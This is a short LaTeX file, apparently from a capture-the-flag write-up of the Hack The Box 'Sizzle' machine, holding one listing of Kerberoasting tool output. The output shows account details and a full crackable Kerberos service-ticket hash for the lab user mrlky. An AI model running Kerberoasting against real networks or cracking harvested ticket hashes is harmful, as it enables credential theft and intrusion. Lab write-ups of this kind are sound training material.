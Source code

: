 \documentclass[a4paper]{article}
\begin{document}
\begin{lstlisting}[language=Bash, caption=KerberosAsting Attack, linewidth=17.8cm]
[*] SamAccountName         : mrlky
[*] DistinguishedName      : CN=mrlky,CN=Users,DC=HTB,DC=LOCAL
[*] ServicePrincipalName   : http/sizzle
[*] PwdLastSet             : 7/10/2018 2:08:09 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mrlky$HTB.LOCAL$http/sizzle@HTB.LOCAL*$C8B04860ABD4D1D0917DC9E6E46B
                             3C45$ADE793C7898357764ECA1FF5EBBF8145EEE6BF79D760F8914D82CF3872B8D8CC02AB76D9B2E
                             7350C0CD393D28A703C7986E4EB2706E40DFDDF8F391F64C856D354CCF70671060CE8A78E26C45BE
                             F5B03FC31B99EDA445455E98C089BB1476065AE3501202EBB8DE0F5D8E9311CA466DB7411F6C0685
                             A3A430F6198294071EACDC1711E12C8407E606EA43084AB2E208D55E95F3ADCFD4E995EBB9F8B2CE
                             F12C1A02333BAFD87321231B7C4F86A683AF0C99F23AE1CB83589137C590E63D563912C4D454722A
                             7F360F118D3980487F8BA03352D5437B57FB46F5DF22E28E9D47B48F9BD5D7BD086425EC4F8453C1
                             5561CFFEF07B7C7EA2720EC10A9975258393535194AB50B2047D92742D75BCC0DDF93C9B08435C17
                             8FD75B2FB29592B3301134E7132C36029D3C4ED775AA105C2E700796DF8509195BFF1D91B174CE1E
                             A40626E6A4DAD6298E235AA99A54AB89404657622A4DFA3B5C6FE5AEBA880D420BE99F449654AD17
                             9CA1A69E7AE48AAC6805E23B8823DF92DF19E55021ACF4AE07CF7407873CB18E5F5E86DB34D12FE0
                             6CB2424AD972F744B2990DC9D8AC78152401615ACB7FB3C5EE0BA6C7A74DD002E8F54C57C346D500
                             3B216190D55D03889B8ADBAEB41E4475136624A350F091BC2193475EB4BA23C43AC74F803830CCFB
                             129C744CC8B2268730AD006F25820DD9A751C73B63C41C017360AC1FACD9B3789D28A62F47429711
                             D5DCEC1FFC16435AB0EECA756AFE6592A6F7DBEA0FEF6948A92E22543C0E35683AB467C97A95B8E9
                             0CAD017710776124F03390F557F95DC74BB18797442648C11D98DAB02798DA0A6453156417B70118
                             8189E30123D4E0B6F2625D4A6D8EB569F2CBADDC376B419471DC323DCB6ECD4D079E30E9E3C6641E
                             66244B6776C0C0946849B138AF0B9FBB60A05D267FBFD0BDDE23B3ED09BB0EFF3A2561E3E9A67314
                             FD7A64F5002897227884E1E1AD83552821981F4A8BC662F19E8EDEAB2392995EF1A7A3C2B396855F
                             5E29A86007A8A40D3CE5EEF4905D602736F0FD4391E60FF92D415FFAECC6E84B50865C730393E8DF
                             2D8E603CA896F94EEB3503C3FDC42886FA4FB0B4D755F171AADF37C2F4B8671FCDAE3F496882D9E0
                             94660185BA73B5713EDE5BC7688BA9C5FA6D359CF849CF07761BABCA70A714C3F622AA7DF860913A
                             83A1B9B89A14B36BC8A527CAF73413E2C7E306866D17753B7ACE52DC10CAC8D41BA0E54C7AB4FCCD
                             B77452BCC462F5CB89E0F8DC512FCDA7CBDFA3B51E51A0BFA91F4EF12DF8F4019AF0942E73E25868
                             7D98156C0D70BAB20761CD96DEA02BBD787BA1F9D9828C743F9586CEF8B9F6C71CE8C26042DA1FD1
                             E86674AD741AD2AFB


\end{lstlisting}
\end{document}
